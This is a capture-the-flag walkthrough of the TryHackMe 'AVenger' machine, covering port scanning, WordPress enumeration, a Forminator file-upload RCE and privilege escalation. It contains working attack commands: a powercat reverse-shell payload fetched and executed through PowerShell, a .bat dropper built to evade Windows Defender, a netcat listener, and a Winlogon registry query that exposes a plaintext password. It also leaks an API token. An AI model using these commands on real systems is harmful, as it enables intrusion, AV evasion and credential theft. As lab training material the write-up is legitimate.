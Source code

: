 # AVenger



## Ports Scanning

For this machine we have to use a more stealth command due AV enable.

```bash
nmap -sC -sV --min-rate 1000 10.10.57.181 -oN port_scan.txt

Nmap scan report for 10.10.57.181
Host is up (0.042s latency).
Not shown: 992 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Apache httpd 2.4.56 (OpenSSL/1.1.1t PHP/8.0.28)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.5K  2022-06-15 16:07  applications.html
| 177   2022-06-15 16:07  bitnami.css
| -     2023-04-06 09:24  dashboard/
| 30K   2015-07-16 15:32  favicon.ico
| -     2023-06-27 09:26  gift/
| -     2023-06-27 09:04  img/
| 751   2022-06-15 16:07  img/module_table_bottom.png
| 337   2022-06-15 16:07  img/module_table_top.png
| -     2023-06-28 14:39  xampp/
|_
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Index of /
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open  ssl/http      Apache httpd 2.4.56 (OpenSSL/1.1.1t PHP/8.0.28)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.5K  2022-06-15 16:07  applications.html
| 177   2022-06-15 16:07  bitnami.css
| -     2023-04-06 09:24  dashboard/
| 30K   2015-07-16 15:32  favicon.ico
| -     2023-06-27 09:26  gift/
| -     2023-06-27 09:04  img/
| 751   2022-06-15 16:07  img/module_table_bottom.png
| 337   2022-06-15 16:07  img/module_table_top.png
| -     2023-06-28 14:39  xampp/
|_
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-title: Index of /
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
3306/tcp open  mysql         MariaDB 5.5.5-10.4.28
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.4.28-MariaDB
|   Thread ID: 10
|   Capabilities flags: 63486
|   Some Capabilities: ODBCClient, Support41Auth, SupportsLoadDataLocal, Speaks41ProtocolNew, ConnectWithDatabase, SupportsCompression, SupportsTransactions, IgnoreSpaceBeforeParenthesis, FoundRows, LongColumnFlag, InteractiveClient, IgnoreSigpipes, DontAllowDatabaseTableColumn, Speaks41ProtocolOld, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: Nw207dp*|Vws\QbyX-w1
|_  Auth Plugin Name: mysql_native_password
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=gift
| Not valid before: 2025-07-23T20:24:16
|_Not valid after:  2026-01-22T20:24:16
| rdp-ntlm-info: 
|   Target_Name: GIFT
|   NetBIOS_Domain_Name: GIFT
|   NetBIOS_Computer_Name: GIFT
|   DNS_Domain_Name: gift
|   DNS_Computer_Name: gift
|   Product_Version: 10.0.17763
|_  System_Time: 2025-07-24T20:25:04+00:00
|_ssl-date: 2025-07-24T20:25:13+00:00; +1s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Hosts: localhost, www.example.com; OS: Windows; CPE: cpe:/o:microsoft:windows

```



## Web Enumeration

<figure><img src="../../../.gitbook/assets/image (319).png" alt=""><figcaption></figcaption></figure>



If we try to enter in the `gift/` directory, the domain will change in this:

<figure><img src="../../../.gitbook/assets/image (320).png" alt=""><figcaption></figcaption></figure>

add this domain to `/etc/hosts` to view the site.

Try to enumerate with dir/file discovering.

{% code overflow="wrap" %}
```bash
gobuster dir -u http://avenger.tryhackme/gift/ -w /usr/share/wordlists/SecLists_custom/raft-large-directories.txt -b 403,404

/admin                (Status: 302) [Size: 0] [--> http://avenger.tryhackme/gift/wp-admin/]
/wp-content           (Status: 301) [Size: 357] [--> http://avenger.tryhackme/gift/wp-content/]
/wp-admin             (Status: 301) [Size: 355] [--> http://avenger.tryhackme/gift/wp-admin/]
/wp-includes          (Status: 301) [Size: 358] [--> http://avenger.tryhackme/gift/wp-includes/]
```
{% endcode %}

### Wordpress Login Brute Forcing

These route bring you to `wp-login` portal.

<figure><img src="../../../.gitbook/assets/image (321).png" alt=""><figcaption></figcaption></figure>

Checking with wafw00f tool we can view that the site not has a WAF enabled.

```bash
wafw00f http://avenger.tryhackme/gift/wp-login.php

[*] Checking http://avenger.tryhackme/gift/wp-login.php
[+] Generic Detection results:
[-] No WAF detected by the generic detection # <--
[~] Number of requests: 7
```

Trying to enter with a admin:admin credentials we can notice that a message appair, tell us that the user admin exists.

<figure><img src="../../../.gitbook/assets/image (322).png" alt=""><figcaption></figcaption></figure>

So, knowing that the site not has WAF enabled and we have already know a user valid, we could do a brute force to guessing the password of admin user.

Nothing found :(

### WPScan

Try to run e WPScan to detect some vulnerability.

{% code overflow="wrap" %}
```bash
wpscan --url http://avenger.tryhackme/gift/ --api-token eVAkNLx5URNVNRP2xj1Uxon9CWFslz5Aas8bWb5jcO8 --random-user-agent -v
```
{% endcode %}

From this we can notice that the File Upload is managed by Forminator Plugin. That reading from readme of the plugin is not updated.

<figure><img src="../../../.gitbook/assets/image (324).png" alt=""><figcaption></figcaption></figure>

Searching online there are some vulnerabilities, but in particulary there is a Unauthentication File Upload and RCE.

{% embed url="https://www.exploit-db.com/exploits/51664" %}

If we upload a file in the form we can see this message.

<figure><img src="../../../.gitbook/assets/image (327).png" alt=""><figcaption></figcaption></figure>

This make us think that any files will upload a person will open it. So, we can upload a file to establish a revshell.

### Forminator Plugin RCE - AV Bypass

We can consider that the Windows Server machine has AV Windows Defender enabled.

And if the upload a simple file with a rev shell, this won't works.

Reading this article, we have a method to bypass the AV.

{% embed url="https://systemweakness.com/evade-windows-defender-reverse-shell-detection-6fa9f5eee1d1" %}

{% content-ref url="../../../pt/executive-pt/post-exploitation/shells/av-bypass-shell.md" %}
[av-bypass-shell.md](../../../pt/executive-pt/post-exploitation/shells/av-bypass-shell.md)
{% endcontent-ref %}

Follow the above pages we obtained the reverse shell bypassing Windows Defender.

Create the encoded RevShell to host in a Http server.&#x20;

```bash
LHOST=10.23.52.142
LPORT=9009
rshell=shell.txt
pwsh -c "iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c $LHOST -p $LPORT -e cmd.exe -ge" > /tmp/$rshell
```

```bash
python3 -m http.server 80
```

Now create the .bat file that will be open by a support user.

```bash
LHOST=10.23.52.142
LPORT_web=80
rshell=shell-9009.txt
echo START /B powershell -c "\$code=(New-Object System.Net.Webclient).DownloadString('http://${LHOST}:${LPORT_web}/${rshell}');iex 'powershell -E \$code'" >/tmp/backup.bat 
```

Lastly start a listener

```bash
rlwrap nc -nlvp 9009
```

Upload the file and when it will be open we will obtain a RevShell.

<figure><img src="../../../.gitbook/assets/image (314).png" alt=""><figcaption></figcaption></figure>

Now we can print the user flag.

```powershell
more C:\Users\hugo\Desktop\user.txt
```



## Privilege Escalation

During the local windows enumeration, we noticed that the user hugo is in the Administrator group

```powershell
net localgroup administrators

Members
------------------------
Administrator
hugo
```

Check if there are some saved credentials in the Auto logon reg keys.

```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```

We found hugo's credential . With this creds we can logon via RDP and run Powershell as administrator and get the root flag.

```bash
xfreerdp3 /v:10.10.26.184 /u:hugo /p:SurpriseMF123!
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



